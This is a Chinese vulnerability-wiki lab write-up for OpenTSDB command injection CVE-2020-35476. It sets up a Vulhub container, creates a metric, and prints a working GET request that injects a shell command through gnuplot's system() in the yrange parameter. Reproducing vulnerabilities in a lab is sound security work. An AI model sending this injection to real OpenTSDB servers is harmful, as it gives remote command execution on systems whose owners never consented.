






# OpenTSDB 命令注入漏洞 CVE-2020-35476

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：<=2.4.0；有效且有数据metric；图形后端/gnuplot条件；API可达
- 证据范围：先建数据再yrange触发；独立于后续25826绕过

### 本次正文校订

- 按实际内容修正 3 处代码围栏语言标记，保留其中方法与请求内容。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- 缺认证/图形工具部署前提及准确修复版
- 创建metric是数据写入并非无副作用探测
- JSON正文却form Content-Type，长度固定；需核对服务实际接受格式
- 较早PacketStorm链接可能是历史相关问题，需区分主CVE依据

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

## 漏洞描述

OpenTSDB 是一款基于 Hbase 的、分布式的、可伸缩的时间序列数据库。在其 2.4.0 版本及之前，存在一处命令注入漏洞。

参考链接：

- [OpenTSDB/opentsdb#2051](https://github.com/OpenTSDB/opentsdb/issues/2051)
- [https://packetstormsecurity.com/files/136753/OpenTSDB-Remote-Code-Execution.html](https://packetstormsecurity.com/files/136753/OpenTSDB-Remote-Code-Execution.html)

## 环境搭建

Vulhub 执行如下命令启动一个 OpenTSDB 2.4.0：

```shell
docker compose up -d
```

服务启动后，访问`http://your-ip:4242`即可看到 OpenTSDB 的 Web 接口。




## 漏洞复现

利用这个漏洞需要知道一个 metric 的名字，可以通过`http://your-ip:4242/api/suggest?type=metrics&q=&max=10`查看 metric 列表：




这里的 metric 列表是空的。但当前 OpenTSDB 开启了自动创建 metric 功能（`tsd.core.auto_create_metrics = true`），所以我们可以使用如下 API 创建一个名为`sys.cpu.nice`的 metric 并添加一条记录：

```http
POST /api/put/ HTTP/1.1
Host: your-ip:4242
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Connection: close
Content-Length: 150

{
    "metric": "sys.cpu.nice",
    "timestamp": 1346846400,
    "value": 20,
    "tags": {
       "host": "web01",
       "dc": "lga"
    }
}
```




如果目标 OpenTSDB 存在 metric，且不为空，则无需上述步骤。再次查看 metric 列表，metric 已经创建完成：




发送如下数据包，其中参数`m`的值必须包含一个有数据的 metric：

```http
GET /q?start=2000/10/21-00:00:00&m=sum:sys.cpu.nice&o=&ylabel=&xrange=10:10&yrange=[0:system(%27touch%20/tmp/awesome_poc%27)]&wxh=1516x644&style=linespoint&baba=lala&grid=t&json HTTP/1.1
Host: your-ip:4242
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
Connection: close
```




进入容器中可见 `touch /tmp/awesome_poc` 已成功执行：




---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
